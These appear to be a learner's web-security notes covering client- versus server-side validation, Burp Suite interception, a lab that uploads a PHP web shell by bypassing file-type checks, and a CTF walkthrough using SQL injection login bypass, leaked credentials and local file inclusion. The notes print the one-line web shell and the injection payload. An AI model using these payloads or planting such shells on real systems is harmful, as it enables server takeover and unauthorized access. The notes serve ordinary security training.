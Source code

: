 # 🧠 Day 2: Client-Side vs Server-Side Validation, Burp Suite, and CTF Walkthrough

## 📚 Topics Covered

### ✅ Client-Side vs Server-Side Validation

| **Aspect**           | **Client-Side Validation**                 | **Server-Side Validation**                     |
| -------------------- | ------------------------------------------ | ---------------------------------------------- |
| Performed On         | User’s browser                             | Web server                                     |
| Speed                | Faster (no server round trip)              | Slower (requires server communication)         |
| Security             | Less secure (can be bypassed by attackers) | More secure (cannot be easily bypassed)        |
| Example Technologies | JavaScript, HTML5 input types              | PHP, Python, Node.js, etc.                     |
| Purpose              | Improve UX, reduce server load             | Ensure data integrity and application security |

🔒 **Conclusion:** Always implement both types of validation. Never rely solely on client-side checks.

---

## 🛠️ Burp Suite Overview

**Burp Suite** is a powerful web vulnerability scanner and proxy tool used by ethical hackers and pentesters to:

- Intercept HTTP/HTTPS traffic between browser and server.
- Modify requests before they reach the server.
- Analyze headers, cookies, and form data.
- Perform automated scans and manual testing.

> 💡 **Definition:** Burp Suite acts as a **man-in-the-middle** proxy that captures and modifies HTTP requests/responses between your browser (frontend) and the server (backend).

### ⚔️ 3 Lines of Defense in Web Applications

1. **Source Code Formatting** – Modifying elements directly via browser dev tools.
2. **Header Analysis** – Viewing and editing request headers.
3. **Burp Suite Interception** – Full control of data flow using proxy.

If none of the above allow you to bypass validation, it is likely **server-side validated**.

> 🧠 **Note:** `.htaccess` or `.hea` files are often used to enforce server-side rules.

---

## 🔬 Lab: Upload PHP Web Shell Using Burp Suitre

### 🎯 Objective:

Exploit a vulnerable file upload feature to gain shell access to the server.

### 🧪 Steps Followed:

1. **Prepare a PHP File** disguised as a `.png`, like `shell.php.png`, containing: <?php system($_GET['cmd']); ?>
2. Inspect the page, **modify the file input** accept attribute if needed.
3. Switch Burp Intercept **ON**.
4. **Upload the file** → Burp intercepts the request.
5. In Burp, change:  
        ```**filename="shell.php.png"**```  
       ``` **Content-Type: image/png**```  
   to:   
        ```**filename="shell.php"**```  
       ``` **Content-Type: application/x-php**```  
6. **Forward the request** → Server accepts it.
7. **Access the file** via URL (e.g., ```/uploads/shell.php```) and use ```?cmd=ls```.

### 🔍 Wappalyzer Extension
Wappalyzer is a browser extension used to identify backend and frontend tech stack such as:

1. Languages (PHP, Python, Ruby)
2. Web servers (Apache, Nginx)
3. Frameworks (Laravel, Django)
4. CMS (WordPress, Joomla)

> 💡 **Note**:You can also analyze backend headers via Burp Repeater or server error messages.
---

### 🕹️ CTF Walkthrough
The CTF involved exploiting 3 vulnerabilities:

1️⃣ **SQL Injection (Authentication Bypass)**

    Used SQLi payload on login page:
		Username: admin'--
    Password: (blank)
		This bypasses login logic and logs you in as admin.

2️⃣ Security Misconfiguration

    Inspecting HTML revealed hardcoded credentials:
	 	<!-- Admin Username: administrator -->
    <!-- Admin Password: AdminPass2024 -->
    <!-- Admin URL: /admin -->  
		Used them to login into admin panel.

3️⃣ LFI Attack (Local File Inclusion)

    Input field in admin panel was vulnerable:
    ?q=flag.txt
	  Retrieved flag from flag.txt

🏁 **Final Flag:**
```CTF{sql_injection_and_lfi_chain_complete}```




		




